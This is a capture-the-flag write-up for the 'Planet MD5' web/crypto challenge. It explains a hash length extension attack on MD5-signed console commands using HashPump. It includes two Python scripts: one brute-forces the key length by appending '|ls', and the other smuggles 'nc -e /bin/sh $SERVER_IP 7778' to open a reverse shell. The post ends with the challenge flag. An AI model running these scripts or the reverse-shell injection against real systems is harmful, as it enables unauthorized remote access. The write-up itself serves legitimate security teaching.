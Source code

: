```yaml
---
layout: post
title: Planet MD5 - nn9ed
author: devploit
item_image: https://i.imgur.com/Ao2pJ8H.png
tags: ctf nn9ed navajanegra crypto web
---
```


### 0x01 Challenge:

**Level:** Medium

**Description:**

>**Planet MD5**
>
>Escape the sandbox and read the flag.
>http://planet-md5.nn9ed.ka0labs.org.
>author: ka0labs

### 0x02 Write-up:

We start by visiting the URL provided.

![Branching](https://i.imgur.com/Ao2pJ8H.png)

As we can see, we have access to a console, which seems to only accept the execution of three commands:

```
telnetd> help
Help:
 - ls
 - id
 - unametelnetd> help
```

If we check the request made when executing a command, we can see that each one has an associated signature.

![Branching](https://i.imgur.com/czT5ETO.png)

After hours of searching for exploitation options, hash break attempts and so on, I found this vulnerability.

--

**Hash Lenght Extension Attack**

In cryptography and computer security, a length extension attack is a type of attack where an attacker can use Hash(message1) and the length of message1 to calculate Hash(message1 ‖ message2) for an attacker-controlled message2, without needing to know the content of message1. Algorithms like MD5, SHA-1, and SHA-2 that are based on the Merkle–Damgård construction are susceptible to this kind of attack.

--

It completely matched what we needed to do, so I looked for some tool and set about it. In this case I used [Hashpump](https://github.com/bwall/HashPump).

The first use we are going to give the tool is to achieve the key length. For this case I did the following script:

```python
import requests
from subprocess import check_output
import re

originalSig = 'f55f774913a6e4ad3691f217c60c0958'
cmd = "hashpump -s '" + originalSig + "' --data 'command=id' -a '|ls' -k "

for x in range(1, 60):
    # Append the key length to the command and get the output from execution
    ncmd = cmd + str(x)
    out = check_output(ncmd, shell=True).split("\n")

    newParams = out[1].strip()
    newSig = out[0].strip()

    # URL encode the padding
    m = re.search(r"id(.+?)ls", newParams)
    items = m.group(1).split('\\')
    for item in items:
        newParams = newParams.replace('\\x'+item, '%'+item)

    viewUrl = 'http://planet-md5.nn9ed.ka0labs.org/index.php?' + newParams + '&signature=' +newSig

    r = requests.get(viewUrl)
    if r.text.strip() == 'index.php':
        print 'New URL params: ' + newParams
        print 'New full URL:   ' + viewUrl
        print 'Key length:     ' + str(x) + ' -> ' + r.text.strip()
```

The use of it is to let us know when we have managed to execute the 'ls' command attached to the 'id' command itself. So when it finds an 'index.php' file it notifies us with the complete URL and the key length as we see in the following image as we can see.

![Branching](https://i.imgur.com/8rmdyhj.png)

Visiting the full URL we see the 'ls' command execution achieved.

![Branching](https://i.imgur.com/bodn1pZ.png)

Seeing that it is vulnerable and knowing the length of the key, I modify the script to throw a reverse shell on a server.

```python
import requests
from subprocess import check_output
import re

originalSig = 'f55f774913a6e4ad3691f217c60c0958'
cmd = "hashpump -s '" + originalSig + "' --data 'command=id' -a '| nc -e /bin/sh $SERVER_IP 7778' -k "

# Append the key length to the command and get the output from execution
x = 15
ncmd = cmd + str(x)
out = check_output(ncmd, shell=True).split("\n")

newParams = out[1].strip()
newSig = out[0].strip()

# URL encode the padding
m = re.search(r"id(.+?)7778", newParams)
items = m.group(1).split('\\')
for item in items:
    newParams = newParams.replace('\\x'+item, '%'+item)

viewUrl = 'http://planet-md5.nn9ed.ka0labs.org/index.php?' + newParams + '&signature=' +newSig

r = requests.get(viewUrl)
print 'New URL params: ' + newParams
print 'New full URL:   ' + viewUrl
print 'Key length:     ' + str(x)
```

We execute it, we visit the complete URL that it gives us and we verify that we receive reverse shell on our server.

![Branching](https://i.imgur.com/2nmf6uS.png)

![Branching](https://i.imgur.com/pbgwWff.png)

Finally we have shell on the server. It would only be to find the flag and that's it.

![Branching](https://i.imgur.com/waZW6iu.png)

`Flag: nn9ed{j3t_ext3nd3r_4d}`
